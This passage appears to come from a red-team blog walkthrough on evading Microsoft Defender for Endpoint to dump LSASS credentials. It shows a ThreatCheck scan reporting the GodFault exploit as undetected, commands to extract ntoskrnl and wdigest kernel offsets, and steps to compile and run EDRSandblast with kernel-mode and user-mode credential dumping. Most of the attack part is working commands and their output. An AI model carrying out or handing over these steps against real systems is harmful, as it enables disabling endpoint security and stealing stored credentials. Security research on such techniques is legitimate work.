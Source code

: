 ```
000000B0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000C0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000D0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000E0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
000000F0   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
```

Analysing the God Fault exploit we find it is undetected:

```
PS D:\> .\ThreatCheck.exe -f D:\Tools\GodFault.exe
[+] No threat found!
```

Now on a Ubuntu Machine / WSL use ExtractOffsets.py to get offsets for the target ntoskrnl / wdigest binary versions. To do so run `ver / winver` to retrieve the OS build version on your target and then download appropriate ntoskrnl / wdigest specific versions from: https://winbindex.m417z.com/ to extract offsets as follows.

```
m3rcer@GHOUL:/mnt/d/Work/BypassMDE/Tools/EDRSandblast-GodFault-main/Offsets$ sudo dpkg -i radare2_5.8.8_amd64.deb
Selecting previously unselected package radare2.
(Reading database ... 183535 files and directories currently installed.)
Preparing to unpack radare2_5.8.8_amd64.deb ...
Unpacking radare2 (5.8.8) ...
Setting up radare2 (5.8.8) ...
Processing triggers for man-db (2.10.2-1) ...

m3rcer@GHOUL:/mnt/d/Work/BypassMDE/Tools/EDRSandblast-GodFault-main/Offsets$ python3 ExtractOffsets.py -i ntoskrnl.exe ntoskrnl
[*] Processing ntoskrnl version ntoskrnl_22621-2134.exe (file: ./ntoskrnl.exe)
[+] Finished processing of ntoskrnl ./ntoskrnl.exe!

m3rcer@GHOUL:/mnt/d/Work/BypassMDE/Tools/EDRSandblast-GodFault-main/Offsets$ python3 ExtractOffsets.py -i wdigest.exe wdigest
[*] Processing ntoskrnl version wdigest_22621-2134.exe (file: ./wdigest.exe)
[+] Finished processing of wdigest ./wdigest.exe!
```

Next compile the EDRSandblast-GodFault in Visual Studio and transfer the compiled EDRSandblast.exe binary along with GodFault.exe and the above compiled  ntoskrnl_22621-2134.exe and wdigest_22621-2134.exe. 

Execute this as follows:

```
C:\Users\user\Desktop\Offsets>EDRSandblast.exe --kernelmode dump --usermode
```

We find an informational alert on MDE: 

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915172017.png)


[+]: Shellcode located at c7160